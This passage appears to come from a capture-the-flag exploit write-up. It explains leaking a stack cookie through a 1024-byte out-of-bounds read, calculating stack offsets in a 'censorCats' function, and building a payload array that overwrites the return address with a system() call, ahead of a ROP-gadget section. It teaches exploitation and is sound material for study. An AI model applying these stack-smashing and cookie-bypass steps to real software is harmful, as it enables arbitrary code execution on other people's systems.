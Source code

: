 The first argument of `PetHandler.censorMyDogs` function is `1024` meaning that we want 1024 bytes back. Let's use math:

`1024 (size of leaked data in bytes) / 8 (size of a DWORD in bytes) = 128 total DWORDs`

Don't forget the [endianness](https://en.wikipedia.org/wiki/Endianness) . We're dealing with Little-Endian so our entries "must be reversed" (please, don't kill me). The following example will clarify:

```javascript
    leak = [
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        ...
        0xce, 0x32, 0x6c, 0x89, 0xf7, 0x0c, 0xd2, 0xa1
        ...
    ]
```

The cookie is here, indeed. If you try to run the code again, again and again, you'll notice that the :cookie: starts alway at offset `0x400` in **leak** array.

### Approaching cats in a different way

Instead of dynamic analysis, I'd like to approach the exploitation of **censorCats** with pure math.

![](https://i.imgur.com/8ZgUyaq.png)

From the code above we know that the reserved stack size for this function is `0x210` (bytes), `rcx` contains the :cookie: which is saved at `rsp+0x228-0x20` and the **memcpy** copies `0x230` bytes.

`0x228 - 0x20 = 0x208`: where our :cookie: should reside in passed data;
`0x230 - 0x208 = 0x28`: 4 more dwords we've control of (40 bytes total).

If you think my math is wrong try by yourself using gdb :grimacing:.

As said, we can control 4 dwords at the end of the stack which will be respectively popped in `rbx`, `r14`, `r15` and used for `retn` address.

Our temporary payload will look like:

```javascript
    payload = [
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        ...
        cookie,                                            // @ offset 0x208
        systemFunctionAddress,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    // don't care about rsi
        getMySomethingValue,                               // rdi
        ???
    ]
```

### ROP Gadged - :musical_note: Its the g-a-d to the g-e-t :musical_note:
